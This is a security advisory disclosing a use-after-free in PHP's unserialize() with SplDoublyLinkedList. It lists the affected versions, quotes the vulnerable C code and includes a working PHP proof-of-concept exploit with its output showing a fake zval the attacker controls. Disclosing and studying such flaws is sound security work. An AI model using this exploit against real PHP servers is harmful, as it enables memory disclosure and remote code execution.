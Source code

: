 #Use After Free Vulnerability in unserialize() with SplDoublyLinkedList
 
Taoguang Chen <[@chtg](http://github.com/chtg)> - Write Date: 2015.7.30 - Release Date: 2015.8.7
 
> A use-after-free vulnerability was discovered in unserialize() with SplDoublyLinkedList object's deserialization that can be abused for leaking arbitrary memory blocks or execute arbitrary code remotely.

Affected Versions
------------
Affected is PHP 5.6 < 5.6.12  
Affected is PHP 5.5 < 5.5.28  
Affected is PHP 5.4 < 5.4.44

Credits
------------
This vulnerability was disclosed by Taoguang Chen.

Description
------------

```
	ALLOC_INIT_ZVAL(flags);
	if (!php_var_unserialize(&flags, &p, s + buf_len, &var_hash TSRMLS_CC) || Z_TYPE_P(flags) != IS_LONG) {
		zval_ptr_dtor(&flags);
		goto error;
	}
	intern->flags = Z_LVAL_P(flags);
	zval_ptr_dtor(&flags);  <===  free memory
	
	...

	PHP_VAR_UNSERIALIZE_DESTROY(var_hash);
	return;
```

The zval_ptr_dtor() leads to &flags is freed from memory. However the unserialize() will still allow to use R: or r: to set references to that already freed memory. It is possible to use-after-free attack and execute arbitrary code remotely.

Proof of Concept Exploit
------------
The PoC works on standard MacOSX 10.11 installation of PHP 5.4.43.

```
<?php

$fakezval = ptr2str(1122334455);
$fakezval .= ptr2str(0);
$fakezval .= "\x00\x00\x00\x00";
$fakezval .= "\x01";
$fakezval .= "\x00";
$fakezval .= "\x00\x00";

$inner = 'i:0;';
$exploit = 'a:2:{i:0;C:19:"SplDoublyLinkedList":'.strlen($inner).':{'.$inner.'}i:1;R:3;}';

$data = unserialize($exploit);

for ($i = 0; $i < 5; $i++) {
    $v[$i] = $fakezval.$i;
}

var_dump($data);

function ptr2str($ptr)
{
	$out = "";
	for ($i = 0; $i < 8; $i++) {
		$out .= chr($ptr & 0xff);
		$ptr >>= 8;
	}
	return $out;
}

?>
```

Test the PoC on the command line:

```
$ php uafpoc.php
array(2) {
  [0]=>
  object(SplDoublyLinkedList)#1 (2) {
    ["flags":"SplDoublyLinkedList":private]=>
    int(0)
    ["dllist":"SplDoublyLinkedList":private]=>
    array(0) {
    }
  }
  [1]=>
  int(1122334455)  <===  so we can control the memory and create fake ZVAL :)
}
```
